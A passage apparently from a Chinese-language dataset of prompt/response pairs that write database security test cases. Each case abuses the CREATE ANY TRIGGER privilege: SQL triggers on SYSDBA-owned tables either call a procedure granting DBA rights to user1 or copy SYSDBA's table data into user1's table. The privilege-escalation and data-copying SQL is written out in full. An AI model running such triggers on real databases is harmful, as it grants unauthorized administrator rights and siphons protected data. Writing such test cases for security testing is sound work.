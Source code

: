 FOR EACH ROW
BEGIN
 --调用存储过程
 call grant_dba_to_user1();
END;

--DBA用户
--删除数据，触发触发器进行授权
DELETE FROM user1.t6 WHERE id = 1;

--user1用户
--查看权限
SELECT * FROM user_role_privs;"
创建一组测试用例，使用create any trigger权限实现间接提权,user1用户拥有create any trigger权限，通过给SYSDBA用户创建触发器，在插入到sysdba用户表之时，将数据复制到自己的表中。sysdba用户插入数据触发触发器，执行授权命令。,"‘--SYSDB用户
--创建表
CREATE TABLE T1(ID INT, NAME VARCHAR(20));
--授予CREATE ANY TRIGGER权限
GRANT CREATE ANY TRIGGER TO USER1;

--USER1
--创建表
CREATE TABLE T2(ID INT, NAME VARCHAR(20));

--创建触发器
CREATE OR REPLACE TRIGGER COPY_TABLE_DATA
AFTER INSERT ON SYSDBA.T1
FOR EACH ROW
BEGIN 
 INSERT INTO USER1.T2 SELECT * FROM SYSDBA.T1;
END;

--SYSDBA用户
--插入数据
INSERT INTO SYSDBA.T1 VALUES(1, 'SYSDBA');
INSERT INTO SYSDBA.T1 VALUES(2, 'SYSDBA');

--USER1用户
--查询该自己的表
SELECT * FROM USER1.T2;"
创建一组测试用例，使用create any trigger权限实现间接提权,user1用户拥有create any trigger权限，通过给SYSDBA用户创建触发器，在更新sysdba用户表时，将数据复制到自己的表中。sysdba用户更新数据触发触发器，执行授权命令。,"‘--SYSDBA用户
--创建表
CREATE TABLE T1(ID INT, NAME VARCHAR(20));

--插入数据
INSERT INTO SYSDBA.T1 VALUES(1, 'SYSDBA');
INSERT INTO SYSDBA.T1 VALUES(2, 'SYSDBA');

--授予CREATE ANY TRIGGER权限
GRANT CREATE ANY TRIGGER TO USER1;

--USER1
--创建表
CREATE TABLE T2(ID INT, NAME VARCHAR(20));
